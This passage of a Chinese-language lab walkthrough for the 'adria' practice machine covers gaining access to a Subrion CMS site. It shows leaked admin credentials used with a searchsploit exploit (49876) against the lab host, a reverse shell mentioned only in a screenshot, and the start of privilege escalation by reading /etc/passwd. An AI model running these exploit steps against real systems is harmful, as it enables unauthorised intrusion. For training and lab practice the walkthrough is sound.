 我们从压缩包里面找到了账号密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lcbWX2ticDCB6ys5G2YsWAcsAyDg8ib8iaLicjVLeCt29kH2656fz1ousQMibcYvt96T3WSZYQsWmSN3UKiaTQ8TZEaQ/640?wx_fmt=png&from=appmsg "")  
  
使用账号密码可登录到后台  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lcbWX2ticDCB6ys5G2YsWAcsAyDg8ib8iaLWviaNpibbZeG3cRXn1NK8SRq5cibyeq9gtWc07h34gicEHSONF3BBDIJRA/640?wx_fmt=png&from=appmsg "")  
## 权限获取  
  
通过searchsploit 漏洞库里面找到exp  
```
searchsploit Subrion CMS  
searchsploit -m 49876 
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lcbWX2ticDCB6ys5G2YsWAcsAyDg8ib8iaLWOAB6vnEdT7umibcpPEpGPBuuukib8ZkokRgALXbrOMDhRfnjr1DCXgg/640?wx_fmt=png&from=appmsg "")  
  
使用前面收集到的账号密码进行利用  
```
┌──(kali㉿kali)-[~]
└─$ python3 49876.py
[+] Specify an url target
[+] Example usage: exploit.py -u http://target-uri/panel
[+] Example help usage: exploit.py -h
┌──(kali㉿kali)-[~]
└─$ python3 49876.py -h                          
Usage: 49876.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri http://target/panel
  -l USER, --user=USER  User credential to login
  -p PASSW, --passw=PASSW
                        Password credential to login
```  
```
python3 49876.py -u http://adria.hmv/panel/ -l admin -p jojo1989
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lcbWX2ticDCB6ys5G2YsWAcsAyDg8ib8iaLrGiccTENGrb0bWwLuX2b3BsVib0XFPI9mLCXPG0NSRdFvtDPrl1XgLYA/640?wx_fmt=png&from=appmsg "")  
  
为了方便操作我们反弹一个交换shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lcbWX2ticDCB6ys5G2YsWAcsAyDg8ib8iaLia0N8gsKr8s94DVzqmV5jtXibibUYFvGvhs4J9lX4lolWWjqhMvovichqQ/640?wx_fmt=png&from=appmsg "")  
## 权限提升  
### 普通账号  
```
www-data@adria:/var/www/html$ cat /etc/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
.....
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
adriana:x:1001:1001:,,,:/home/adriana:/bin/zsh
mysql:x:104:111:MySQL Server,,,:/nonexistent:/bin/false
www-data@adria:/var/www/html$ cd /home
www-data@adria:/home$ ls
adriana
www-data@adria:/home$ cd adriana/
bash: cd: adriana/: Permission denied
```  
  